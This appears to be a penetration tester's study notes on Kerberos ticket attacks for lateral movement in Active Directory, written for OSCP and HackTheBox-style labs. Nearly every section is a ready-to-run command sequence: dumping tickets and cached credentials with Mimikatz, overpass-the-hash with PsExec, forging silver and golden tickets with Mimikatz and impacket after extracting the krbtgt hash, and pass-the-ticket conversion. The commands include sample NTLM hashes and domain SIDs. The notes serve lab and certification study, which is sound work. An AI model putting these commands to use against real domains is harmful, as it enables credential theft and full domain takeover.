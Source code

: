 # Ticket Attacks- Lateral Movement

## Mimikatz Dump tickets into a file

This saves the tickets you see in `klist` into a `.kirbi` file.

```bash
invoke-mimikatz -command '"sekurlsa::tickets /export"'
invoke-mimikatz -command '"kerberos::list /export"'
```

You can rename the file with the regex “*” before transferring

![Untitled](Ticket%20Attacks-%20Lateral%20Movement%20bc869d1597a84fc4882ab9634ce29afa/Untitled.png)

# Overpass the hash

> With overpass the hash, we can “over” abuse a NTLM user hash to gain a full Kerberos Ticket
Granting Ticket (TGT) or service ticket, which grants us access to another machine or service as that user.
> 

Can see more about this in pen-200 pdf page 656.

```nasm
// show ntlm hash of users with cached credentials
mimikatz # sekurlsa::logonpasswords

// pass the hash with jeff_admin's hash and open a new powershell session as jeff_admin
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com
/ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

// generate a TGT by authenticating to a network share in jeff_admin's powershell session
// note: We used “net use” arbitrarily in this example but we could have used any command that requires domain permissions and would subsequently create a TGS.
net use \\dc01
```

Now that you have the Kerberos TGT loaded, you can run psexec

```nasm
.\PsExec.exe \\dc01 cmd.exe
```

Overpass the hash is viable when NTLM authentication isn’t allowed in the domain. In this case, you can leverage the kerberos tickets to gain access. When NTLM is enabled, however, it’s probably easier to just use a typical PTH attack.

************Note: You may be able to use Rubeus to dump the generated ticket in base64 format so that you can convert it on your host machine to `.ccache` and use it to remotely pass the ticket.*

# Silver Ticket Attack

Services like mssql are vulnerable to Silver Ticket Attacks. In this example, you would generate the silver ticket, and then access mssql through impacket like so:

```nasm
impacket-mssql dc1.scrm.local -k
```

Ippsec shows how to do this [here](https://youtu.be/_8FE3JZIPfo?t=1093) 

### NTLM hash required

The silver tickets must always be encrypted with an NTLM hash, so make sure you have that or generated it from the plaintext password from a website on the internet

### Domain SID required

Easiest way to get domain SID is to look at a user SID since the domain SID is the prefix to a user SID.

If the user SID is this `S-1-5-21-1602875587-2787523311-2599479668-1103`, then the domain SID is the same thing minux the `-1103` at the end (the RID). So the domain SID becomes `S-1-5-21-1602875587-2787523311-2599479668`

Alternatively, you can use impacket to do this

```nasm
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson
```

### Generate ticket with impacket

To generate the ticket with impacket

```nasm
impacket-ticketer -spn MSSQLSVC/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b89d17ec7f2e2a68668f04 -domain-sid S-1-5-21-1602875587-2787523311-2599479668 -domain scrm.local

export KRB5CCNAME=Administrator.ccache
```

note: the SPN is of the user sqlsvc on scrambled, HTB.

### Generate ticket with mimikatz

You can optionally clear out prexisting tickets

```nasm
mimikatz # kerberos::purge
mimikatz # kerberos::list
```

Then generate the silver ticket

```nasm
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-160285587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP
```

a new service ticket for the SPN
HTTP/CorpWebServer.corp.com has been loaded into memory and Mimikatz set appropriate
group membership permissions in the forged ticket

# Golden ticket

First, get the hash of the krbtgt

```bash
invoke-mimikatz -command '"privilege::debug" "lsadump::lsa /patch"'
```

![Untitled](Ticket%20Attacks-%20Lateral%20Movement%20bc869d1597a84fc4882ab9634ce29afa/Untitled%201.png)

then, clear the existing tickets and make your golden ticket

```bash
invoke-mimikatz -command '"privilege::debug" "kerberos::purge" "kerberos::golden /user:fakeuser /domain:heist.offsec /sid:S-1-5-21-537427935-490066102-1511301751 /krbtgt:3198641a390fccf87a72629f8fd1bd37 /ptt"'
```

![Untitled](Ticket%20Attacks-%20Lateral%20Movement%20bc869d1597a84fc4882ab9634ce29afa/Untitled%202.png)

## Ptt

```bash
impacket-ticketConverter fakeuser.kirbi fakeuser.ccache
export KRB5CCNAME=`pwd`/fakeuser.ccache
klist # you should see the ticket listed here
```
